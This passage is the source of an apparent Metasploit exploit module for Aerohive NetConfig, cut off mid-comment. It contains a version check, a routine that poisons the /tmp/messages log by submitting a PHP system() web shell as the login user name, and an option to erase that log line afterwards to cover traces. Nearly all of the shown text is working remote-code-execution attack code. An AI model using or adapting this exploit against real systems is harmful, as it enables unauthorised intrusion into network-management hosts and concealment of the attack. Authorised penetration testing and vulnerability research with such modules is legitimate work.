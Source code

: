 '2020-02-17',        'DefaultTarget' => 0,        'Notes' => {          'Stability' => [ CRASH_SAFE ],          'SideEffects' => [ ARTIFACTS_ON_DISK, IOC_IN_LOGS ],          'Reliability' => [ REPEATABLE_SESSION ]        }      )    )    register_options [      OptString.new('TARGETURI', [true, 'The base path to Aerohive NetConfig', '/']),      OptBool.new('AUTO_CLEAN_LOG', [true, 'Automatically clean the /tmp/messages log upon spawning a shell. WARNING! This may render the target unexploitable', false]),    ]  end  def auto_clean_log    datastore['AUTO_CLEAN_LOG']  end  def check    res = send_request_cgi({      'method' => 'GET',      'uri' => normalize_uri(target_uri.path, 'index.php5')    })    unless res      return CheckCode::Unknown('Connection failed.')    end    unless res.code == 200 &amp;&amp; res.body.include?('Aerohive NetConfig UI')      return CheckCode::Safe('Target is not an Aerohive NetConfig application.')    end    version = res.body.scan(/action="login\.php5\?version=(.*?)"/)&amp;.flatten&amp;.first    unless version      return CheckCode::Detected('Could not determine Aerohive NetConfig version.')    end    begin      if Rex::Version.new(version) &lt;= Rex::Version.new('10.0r8a')        return CheckCode::Appears("The target is Aerohive NetConfig version #{version}")      else        print_warning('It should be noted that it is unclear if/when this issue was patched, so versions after 10.0r8a may still be vulnerable.')        return CheckCode::Safe("The target is Aerohive NetConfig version #{version}")      end    rescue StandardError => e      return CheckCode::Unknown("Failed to obtain a valid Aerohive NetConfig version: #{e}")    end  end  def poison_log    password = rand_text_alphanumeric(8..12)    @shell_cmd_name = rand_text_alphanumeric(3..6)    @poison_cmd = "&lt;?php system($_POST['#{@shell_cmd_name}']);?>"    # Poison /tmp/messages    print_status('Attempting to poison the log at /tmp/messages...')    res = send_request_cgi({      'method' => 'POST',      'uri' => normalize_uri(target_uri.path, 'login.php5'),      'vars_post' => {        'login_auth' => 0,        'miniHiveUI' => 1,        'authselect' => 'Name/Password',        'userName' => @poison_cmd,        'password' => password      }    })    unless res      fail_with(Failure::Disconnected, 'Connection failed while trying to poison the log at /tmp/messages')    end    unless res.code == 200 &amp;&amp; res.body.include?('cmn/redirectLogin.php5?ERROR_TYPE=MQ==')      fail_with(Failure::UnexpectedReply, 'Unexpected response received while trying to poison the log at /tmp/messages')    end    print_status('Server responded as expected. Continuing...')  end  def on_new_session(session)    log_cleaned = false    if auto_clean_log      print_status('Attempting to clean the log file at /tmp/messages...')      print_warning('Please note this will render the target (temporarily) unexploitable. This state can last over an hour.')      begin        # We need remove the line containing the PHP system call from /tmp/messages        # The special chars in the PHP syscall make it nearly impossible to use sed to replace the PHP syscall with a regular username.        # Instead, let's avoid special chars by stringing together some grep commands to make sure we have the right line and then removing that entire line        # The impact of using sed to edit the file on the fly and using grep to create a new file and overwrite /tmp/messages with it, is the same:        # In both cases the app will likely stop writing to /tmp/messages for quite a while (could be over an hour), rendering the target unexploitable during that